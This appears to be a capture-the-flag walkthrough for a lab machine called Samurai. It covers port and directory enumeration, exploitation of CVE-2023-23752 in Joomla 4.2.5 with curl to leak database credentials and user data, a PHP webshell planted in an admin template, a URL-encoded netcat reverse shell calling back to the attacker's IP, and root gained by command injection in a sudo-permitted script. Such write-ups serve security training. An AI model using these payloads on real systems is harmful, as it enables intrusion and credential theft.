





# Samurai (Easy)


## Overview
**Target Name:** Samurai

**Difficulty:** Easy

**OS:** Ubuntu

**Objective:** As part of a penetration test, your team identified an interesting web server. Your task is to enumerate the target, establish an initial foothold, and escalate privileges to root.

## Enumeration:
### Port Scanning
Ran Rustscan then piped results to Nmap
```
rustscan -a http://10.1.104.188 -- -A
```
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c3:5a:83:50:80:9a:61:37:05:b7:45:96:cb:ab:1d:1e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDnWIbBLcbSbZZmw8nDh5DOA9ecneGMU8Ff1Rm8Frp71DcloANVhYkmErZ3+o839XNGO+k2tmXeNcwJ8jICj06M=
|   256 6b:15:12:60:1b:21:d1:bf:7e:b8:c0:e8:d7:7e:7b:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP9JIv57fNRXYSBb4BDtI+WNZG/hfJuGHaaMLL7Iu9PG
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Samurai
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 3E18B73692FF5A74F54EFFB2E047C8CB
```
### SSH Login Test
SSH configured for password login, advise to use keys.


### Directory Enumeration:
Ran Gobuster on TLD to enumerate subdirectories.

```
─$ gobuster dir -u http://10.1.104.188 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  --exclude-length 3185 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.1.104.188
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] Exclude Length:          3185
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 313] [--> http://10.1.104.188/images/]
templates            (Status: 301) [Size: 316] [--> http://10.1.104.188/templates/]
media                (Status: 301) [Size: 312] [--> http://10.1.104.188/media/]
modules              (Status: 301) [Size: 314] [--> http://10.1.104.188/modules/]
assets               (Status: 301) [Size: 313] [--> http://10.1.104.188/assets/]
plugins              (Status: 301) [Size: 314] [--> http://10.1.104.188/plugins/]
includes             (Status: 301) [Size: 315] [--> http://10.1.104.188/includes/]
language             (Status: 301) [Size: 315] [--> http://10.1.104.188/language/]
components           (Status: 301) [Size: 317] [--> http://10.1.104.188/components/]
api                  (Status: 301) [Size: 310] [--> http://10.1.104.188/api/]
cache                (Status: 301) [Size: 312] [--> http://10.1.104.188/cache/]
libraries            (Status: 403) [Size: 277]
tmp                  (Status: 301) [Size: 310] [--> http://10.1.104.188/tmp/]
layouts              (Status: 301) [Size: 314] [--> http://10.1.104.188/layouts/]
administrator        (Status: 301) [Size: 320] [--> http://10.1.104.188/administrator/]
cli                  (Status: 301) [Size: 310] [--> http://10.1.104.188/cli/]
Progress: 87662 / 87662 (100.00%)
===============================================================
```

Oh look an administrator directory. We can see that brings us to a Joomla login page. 

### Joomla Version Check
A misconfiguration allows us to check the Joomla version by navigating to an xml file.

```
http://10.1.104.188/administrator/manifests/files/joomla.xml
```



```
Version: 4.2.5
```

### Code Execution Check
A little Google-Fu and I found a CVE that looks like we can use. Lets run a couple tests to see if it will work.

Here is the article I found that helped me along:
https://www.vulncheck.com/blog/joomla-for-rce

```
CVE-2023-23752
```

```
curl -v http://10.1.104.188/api/index.php/v1/config/application?public=true

{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"joomla425","id":224}},{"type":"application","id":"224","attributes":{"password":"Pa847word987@Joomla456","id":224}},{"type":"application","id":"224","attributes":{"db":"Dbjoomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"iemj4_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

That uncovered the SQL database name, username and password. The vulnerability works. Lets check one more thing.

**SQL Username:Password**
```
joomla425:Pa847word987@Joomla456
```
Let's try and extract the Joomla users.

```
curl -v http://10.1.104.188/api/index.php/v1/users?public=true

{"links":{"self":"http:\/\/10.1.104.188\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"769","attributes":{"id":769,"name":"Oda","username":"Miyamoto","email":"oda@local.local","block":0,"sendEmail":1,"registerDate":"2026-03-06 09:02:33","lastvisitDate":null,"lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Super Users"}}],"meta":{"total-pages":1}}
```
**Joomla Username**
```
Miyamoto
```

I did run a module in msfconsole as well and got the same information.

**Metasploit Output**
```
msf auxiliary(scanner/http/joomla_api_improper_access_checks) > run
[+] Users JSON saved to /home/heretic/.msf4/loot/20260612114628_default_10.1.104.188_joomla.users_675134.bin
[+] Joomla Users
============

 ID   Super User  Name  Username  Email            Send Email  Register Date        Last Visit Date  Group Names
 --   ----------  ----  --------  -----            ----------  -------------        ---------------  -----------
 769  *           Oda   Miyamoto  oda@local.local  1           2026-03-06 09:02:33                   Super Users

[+] Config JSON saved to /home/heretic/.msf4/loot/20260612114629_default_10.1.104.188_joomla.config_742667.bin
[+] Joomla Config
=============

 Setting        Value
 -------        -----
 db encryption  0
 db host        localhost
 db name        Dbjoomla
 db password    Pa847word987@Joomla456
 db prefix      iemj4_
 db user        joomla425
 dbtype         mysqli

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
## Initial Access
Due to reusing passwords, I gained access to Miyamoto's Joomla account with the password extracted from the SQL database.



### PHP Webshell
Looking through the steps on the article, I did hit a wall for awhile. I tried adding the php code to the index.php in the site templates but found it didn't work. I decided to try it on the administrator templates index.php and BAM! we have RCE!





Grabbing a revshell that is URL encoded and running a netcat listener we get access to the server

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.200.64.75%201234%20%3E%2Ftmp%2Ff
```

```
└─$ nc -lvnp 1234        
listening on [any] 1234 ...
connect to [10.200.64.75] from (UNKNOWN) [10.1.104.188] 60150
bash: cannot set terminal process group (794): Inappropriate ioctl for device
bash: no job control in this shell
www-data@streetcoder:/var/www/html/administrator$ whoami
whoami
www-data
www-data@streetcoder:/var/www/html/administrator$
```

User.txt is within reach! You may have to "find" it.

## Privilege Escalation

I wound up running Linpeas on the server to see what www-data can perform. 

This could do something.
```
User www-data may run the following commands on streetcoder:
    (root) NOPASSWD: /opt/backup/DbMaria
```

The DbMaria script is vulnerable to command injection. You are able to break out of the logic and gain a privileged shell with the following command.

```
sudo /opt/backup/Dbmaria 'test; /bin/bash -p #'
```

**ROOT!**
```
root@streetcoder:~# whoami
root
root@streetcoder:~# 
```

Got the root flag and PWN'd that machine!

